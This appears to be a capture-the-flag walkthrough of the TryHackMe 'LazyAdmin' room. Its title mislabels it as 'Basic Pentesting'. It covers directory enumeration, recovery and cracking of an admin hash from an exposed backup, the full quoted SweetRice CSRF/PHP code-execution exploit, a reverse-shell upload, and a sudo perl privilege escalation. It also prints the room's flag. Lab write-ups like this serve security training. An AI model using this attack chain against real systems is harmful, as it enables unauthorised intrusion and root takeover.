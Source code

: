 Lazy

# Basic Pentesting Wlakthrough
### Link
- https://tryhackme.com/room/basicpentestingjt
------------------------
### Recon
First scan to check all ports
```
sudo nmap -p- [IP]
```
**Namp scan result**
```
```

Now, let's perform a directory enumeration
```
 sudo gobuster dir -u http://10.10.23.230 -w [Path]/directory-list-2.3-small.txt
```
**Gobuster scan result**
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.23.230
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /Users/laurentnebout/Documents/Tools/SecLists-master/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/01/20 05:29:36 Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 314] [--> http://10.10.23.230/content/]
```
Check the link **http://[IP]/content/**

We arrive to a page that indicates the website is under construction. But the most interesting information is the CMS Framework name **SweetRice**

Now, we can check the [exploit-db](http://exploit-db.com) and try to find some exploit related to **SweetRice** CMS framework.

We found a [list](https://github.com/LNB283/THM/blob/main/EASY/LazyAdmin/Pictures/LazyAdmin_1.png) of known exploit.

We check the link **http://[IP]/content/inc/mysql_backup/** and foudn a mysql backup. We can download it and check it contents.
```
 14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```
```
"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\"
```
Now we have a username: **manager** and hash password : **42f749ade7f9e195bf475f37a44cafcb**

Now we need to identify the Hash type. For this step, use this [link](https://www.tunnelsup.com/hash-analyzer/)
```
MD5
```
Let's decrypt the password by using this [website](https://md5hashing.net/). You can also use **hashcat**
```
Password123
```
Now we are logged into the admin console.

----
### Exploit

If we remembered the exploit list from **exploit-db**, one of this is related to **CSRF/PHP code execution**
```
<!--
# Exploit Title: SweetRice 1.5.1 Arbitrary Code Execution
# Date: 30-11-2016
# Exploit Author: Ashiyane Digital Security Team
# Vendor Homepage: http://www.basic-cms.org/
# Software Link: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
# Version: 1.5.1


# Description :

# In SweetRice CMS Panel In Adding Ads Section SweetRice Allow To Admin Add
PHP Codes In Ads File
# A CSRF Vulnerabilty In Adding Ads Section Allow To Attacker To Execute
PHP Codes On Server .
# In This Exploit I Just Added a echo '<h1> Hacked </h1>'; phpinfo(); 
Code You Can
Customize Exploit For Your Self .

# Exploit :
-->

<html>
<body onload="document.exploit.submit();">
<form action="http://localhost/sweetrice/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>
&lt;/textarea&gt;
</form>
</body>
</html>

<!--
# After HTML File Executed You Can Access Page In
http://localhost/sweetrice/inc/ads/hacked.php
  -->
```
We are able to upload a php file so we can upload our favorite reverse shell php from **pentest monkey** to gain access.

- First: move to **Ads** from the GUI
- Second: upload the reverse shell php from [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) with the appropriate IP and Port
- Third: Start a listener
- Fourth: Move to **http://[IP]/content/inc/ads/** from the browser and click on the reverse shell file
```
Connection from 10.10.23.230:43214
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 14:20:25 up  1:53,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
Use this command to have a proper prompt
```
 python -c 'import pty; pty.spawn("/bin/bash")'
```
**Question**
#### user.txt
```
www-data@THM-Chal:/home/itguy$ cat user.txt
cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
```
**Answer** 
#### THM{63e5bce9271952aad1113b6f1ac28a07}

---
### Privilege escalation

Check what command we are able to perform with this user
```
www-data@THM-Chal:/home/itguy$ sudo -l
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
Now we need to check **backup.pl** to understand what action this **Perl** script does.
```
www-data@THM-Chal:/home/itguy$ cat backup.pl
cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
Let's check the permision of **copy.sh**
```
www-data@THM-Chal:/home/itguy$ ls -l /etc/copy.sh
ls -l /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```
Allusers can **Write** so we can modify this file ^^

Let's change the content to be able able to run **/bin/bash**
```
www-data@THM-Chal:/home/itguy$ echo "/bin/bash" > /etc/copy.sh
echo "/bin/bash" > /etc/copy.sh
```
Last step, run **backup.pl** 
```
sudo /usr/bin/perl /home/itguy/backup.pl
```

